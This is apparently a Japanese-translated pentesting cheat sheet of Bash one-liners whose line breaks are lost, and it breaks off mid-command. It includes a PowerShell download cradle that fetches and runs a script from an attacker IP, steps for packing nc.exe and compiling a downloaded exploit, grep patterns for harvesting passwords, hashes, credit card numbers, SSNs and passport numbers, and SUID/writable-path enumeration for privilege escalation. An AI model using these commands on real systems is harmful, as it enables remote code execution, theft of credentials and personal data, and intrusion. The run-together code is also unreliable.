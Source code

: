 **今すぐアクセスしてください：Windows用のBash**#Base64 for Windowsecho -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w0#Exe compressionupx -9 nc.exe#Exe2batwine exe2bat.exe nc.exe nc.txt#Compile Windows python exploit to exepip install pyinstallerwget -O exploit.py http://www.exploit-db.com/download/31853python pyinstaller.py --onefile exploit.py#Compile for windows#sudo apt-get install gcc-mingw-w64-i686i686-mingw32msvc-gcc -o executable useradd.c**グレップ**#Extract emails from filegrep -E -o "\b\[A-Za-z0-9.\_%+-]+@\[A-Za-z0-9.-]+\\.\[A-Za-z]{2,6}\b" file.txt#Extract valid IP addressesgrep -E -o "(25\[0-5]|2\[0-4]\[0-9]|\[01]?\[0-9]\[0-9]?)\\.(25\[0-5]|2\[0-4]\[0-9]|\[01]?\[0-9]\[0-9]?)\\.(25\[0-5]|2\[0-4]\[0-9]|\[01]?\[0-9]\[0-9]?)\\.(25\[0-5]|2\[0-4]\[0-9]|\[01]?\[0-9]\[0-9]?)" file.txt#Extract passwordsgrep -i "pwd\\|passw" file.txt#Extract usersgrep -i "user\\|invalid\\|authentication\\|login" file.txt# Extract hashes#Extract md5 hashes ({32}), sha1 ({40}), sha256({64}), sha512({128})egrep -oE '(^|\[^a-fA-F0-9])\[a-fA-F0-9]{32}(\[^a-fA-F0-9]|$)' \*.txt | egrep -o '\[a-fA-F0-9]{32}' > md5-hashes.txt#Extract valid MySQL-Old hashesgrep -e "\[0-7]\[0-9a-f]{7}\[0-7]\[0-9a-f]{7}" \*.txt > mysql-old-hashes.txt#Extract blowfish hashesgrep -e "$2a\\$\08\\$(.){75}" \*.txt > blowfish-hashes.txt#Extract Joomla hashesegrep -o "(\[0-9a-zA-Z]{32}):(w{16,32})" \*.txt > joomla.txt#Extract VBulletin hashesegrep -o "(\[0-9a-zA-Z]{32}):(S{3,32})" \*.txt > vbulletin.txt#Extraxt phpBB3-MD5egrep -o '$H$S{31}' \*.txt > phpBB3-md5.txt#Extract Wordpress-MD5egrep -o '$P$S{31}' \*.txt > wordpress-md5.txt#Extract Drupal 7egrep -o '$S$S{52}' \*.txt > drupal-7.txt#Extract old Unix-md5egrep -o '$1$w{8}S{22}' \*.txt > md5-unix-old.txt#Extract md5-apr1egrep -o '$apr1$w{8}S{22}' \*.txt > md5-apr1.txt#Extract sha512crypt, SHA512(Unix)egrep -o '$6$w{8}S{86}' \*.txt > sha512crypt.txt#Extract e-mails from text filesgrep -E -o "\b\[a-zA-Z0-9.#?$\*\_-]+@\[a-zA-Z0-9.#?$\*\_-]+.\[a-zA-Z0-9.-]+\b" \*.txt > e-mails.txt#Extract HTTP URLs from text filesgrep http | grep -shoP 'http.\*?\[" >]' \*.txt > http-urls.txt#For extracting HTTPS, FTP and other URL format usegrep -E '(((https|ftp|gopher)|mailto)\[.:]\[^ >"	]\*|www.\[-a-z0-9.]+)\[^ .,;	>">):]' \*.txt > urls.txt#Note: if grep returns "Binary file (standard input) matches" use the following approaches # tr '\[\000-\011\013-\037177-377]' '.' < \*.log | grep -E "Your\_Regex" OR # cat -v \*.log | egrep -o "Your\_Regex"#Extract Floating point numbersgrep -E -o "^\[-+]?\[0-9]\*.?\[0-9]+(\[eE]\[-+]?\[0-9]+)?$" \*.txt > floats.txt# Extract credit card data#Visagrep -E -o "4\[0-9]{3}\[ -]?\[0-9]{4}\[ -]?\[0-9]{4}\[ -]?\[0-9]{4}" \*.txt > visa.txt#MasterCardgrep -E -o "5\[0-9]{3}\[ -]?\[0-9]{4}\[ -]?\[0-9]{4}\[ -]?\[0-9]{4}" \*.txt > mastercard.txt#American Expressgrep -E -o "\b3\[47]\[0-9]{13}\b" \*.txt > american-express.txt#Diners Clubgrep -E -o "\b3(?:0\[0-5]|\[68]\[0-9])\[0-9]{11}\b" \*.txt > diners.txt#Discovergrep -E -o "6011\[ -]?\[0-9]{4}\[ -]?\[0-9]{4}\[ -]?\[0-9]{4}" \*.txt > discover.txt#JCBgrep -E -o "\b(?:2131|1800|35d{3})d{11}\b" \*.txt > jcb.txt#AMEXgrep -E -o "3\[47]\[0-9]{2}\[ -]?\[0-9]{6}\[ -]?\[0-9]{5}" \*.txt > amex.txt# Extract IDs#Extract Social Security Number (SSN)grep -E -o "\[0-9]{3}\[ -]?\[0-9]{2}\[ -]?\[0-9]{4}" \*.txt > ssn.txt#Extract Indiana Driver License Numbergrep -E -o "\[0-9]{4}\[ -]?\[0-9]{2}\[ -]?\[0-9]{4}" \*.txt > indiana-dln.txt#Extract US Passport Cardsgrep -E -o "C0\[0-9]{7}" \*.txt > us-pass-card.txt#Extract US Passport Numbergrep -E -o "\[23]\[0-9]{8}" \*.txt > us-pass-num.txt#Extract US Phone Numberssgrep -Po 'd{3}\[s-\_]?d{3}\[s-\_]?d{4}' \*.txt > us-phones.txt#Extract ISBN Numbersegrep -a -o "\bISBN(?:-1\[03])?:? (?=\[0-9X]{10}$|(?=(?:\[0-9]+\[- ]){3})\[- 0-9X]{13}$|97\[89]\[0-9]{10}$|(?=(?:\[0-9]+\[- ]){4})\[- 0-9]{17}$)(?:97\[89]\[- ]?)?\[0-9]{1,5}\[- ]?\[0-9]+\[- ]?\[0-9]+\[- ]?\[0-9X]\b" \*.txt > isbn.txt**検索**# Find SUID set files.find / -perm /u=s -ls 2>/dev/null# Find SGID set files.find / -perm /g=s -ls 2>/dev/null# Found Readable directory and sort by time.  (depth = 4)find / -type d -maxdepth 4 -readable -printf "%T@ %Tc | %p \n" 2>/dev/null | grep -v "| /proc" | grep -v "| /dev" | grep -v "| /run" | grep -v "| /var/log" | grep -v "| /boot"  | grep -v "| /sys/" | sort -n -r# Found Writable directory and sort by time.  (depth = 10)find / -type d -maxdepth 10 -writable -printf "%T@ %Tc | %p \n" 2>/dev/null | grep -v "| /proc" | grep -v "| /dev" | grep -v "| /run" | grep -v "| /var/log" | grep -v "| /boot"  | grep -v "| /sys/" | sort -n -r# Or Found Own by Current User and sort by time. (depth = 10)find / -maxdepth 10 -user $(id -u) -printf "%T@ %Tc | %p \n" 2>/dev/null | grep -v "| /proc" | grep -v "| /dev" | grep -v "| /run" | grep -v "| /var/log" | grep -v "| /boot"  | grep -v "| /sys/" | sort -n -r# Or Found Own by Current Group ID and Sort by time. (depth = 10)find / -maxdepth 10 -group $(id -g) -printf "%T@ %Tc | %p \n" 2>/dev/null | grep -v "| /proc" | grep -v "| /dev" | grep -v "| /run" | grep -v "| /var/log" | grep -v "| /boot"  | grep -v "| /sys/" | sort -n -r# Found Newer files and sort by time. (depth = 5)find / -maxdepth 5 -printf "%T@ %Tc | %p \n" 2>/dev/null | grep -v "| /proc" | grep -v "| /dev" | grep -v "| /run" | grep -v "| /var/log" | grep -v "| /boot"  | grep -v "| /sys/" | sort -n -r | less# Found Newer files only and sort by time. (depth = 5)find / -maxdepth 5 -type f -printf "%T@ %Tc | %p \n" 2>/dev/null | grep -v "| /proc" | grep -v "| /dev" | grep -v "| /run" | grep -v "| /var/log" | grep -v "| /boot"  | grep -v "| /sys/" | sort -n -r | less# Found Newer directory only and sort by time. (depth = 5)find / -maxdepth 5 -type d -printf "%T@ %Tc | %p \n" 2>/dev/null | grep -v "| /proc" | grep -v "| /dev" | grep -v "| /run" | grep -v "| /var/log" | grep -v "| /boot"  | grep -v "| /sys/" |
